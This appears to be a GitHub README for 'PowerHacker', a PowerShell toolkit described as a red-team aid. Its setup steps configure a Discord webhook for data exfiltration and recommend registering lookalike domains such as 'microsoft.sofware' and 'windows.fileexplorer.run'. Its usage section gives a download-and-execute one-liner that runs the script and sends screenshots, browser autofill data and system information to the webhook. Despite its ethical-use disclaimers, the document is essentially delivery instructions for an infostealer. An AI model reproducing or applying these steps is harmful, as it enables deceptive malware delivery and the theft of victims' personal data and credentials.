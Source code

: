 
# PowerHacker :zap: README

Welcome to PowerHacker, a PowerShell-based toolkit designed for penetration testers and cybersecurity professionals. PowerHacker prefers utilizing valuable Top-Level Domains (TLDs) and the setup of subdomains to facilitate efficient red team operations and security assessments.

## :lock: Security Notice

Security and ethical use are paramount. PowerHacker is intended for **authorized penetration testing** and/or **educational purposes only**. Misuse of PowerHacker may result in legal consequences. Ensure you have explicit permission to test target systems with PowerHacker.

## :gear: Setup

To leverage PowerHacker for your assessments:

1. Clone the repository:
    ```
    git clone https://github.com/pentestfunctions/powerhacker.git
    ```

2. Navigate to the PowerHacker directory:
    ```
    cd powerhacker
    ```

3. Update the `$WebhookUrl` in the scripts to point to your Discord webhook for data exfiltration. To get a Discord webhook URL:
    - Create a Discord server or use an existing one.
    - Go to Server Settings > Integrations.
    - Click on "Webhooks" and then "New Webhook".
    - Customize your webhook, copy the URL, and use it in the script.

4. Upload the ps1 file to your github account.

5. Register a domain for best outcome, for example:
   - `fileexplorer.run`
   - You can also then add subdomains such as `windows.fileexplorer.run`
   - Some other good TLD ideas: `software` such as `microsoft.sofware` or `calculator.run`

## :rocket: Usage

PowerHacker simplifies the redirection of subdomains to your raw GitHub page containing the PowerShell code. To execute, use:

```
iex (iwr windows.fileexplorer.run)
```

This command downloads and executes the script, uploading all collected data to the specified Discord webhook.

## :warning: Features

- **TakeScreenshot**: Captures the current screen.
- **Convert-JsonToWav**: Converts JSON data to WAV format.
- **Get-BrowserData-AutoFill**: Extracts autofill information from browsers.
- **Comprehensive System Info**: Collects detailed system information, including OS version, build number, and more.

## :key: Emphasis on Security

- Always ensure you are in compliance with all applicable laws and regulations.
- Use PowerHacker responsibly to enhance security posture, not to undermine it.
- Verify the integrity and confidentiality of the data collected during your assessments.

## :question: Support

For questions, issues, or feature requests, use GitHub Issues within the repository.

## :memo: Contributing

Contributions to PowerHacker are welcome. Please submit pull requests with clear descriptions of changes and enhancements.

## :balance_scale: License

PowerHacker is released under [MIT License](LICENSE). By using PowerHacker, you agree to the terms of the license and acknowledge the tool's intended purpose for legal, authorized cybersecurity assessments only.
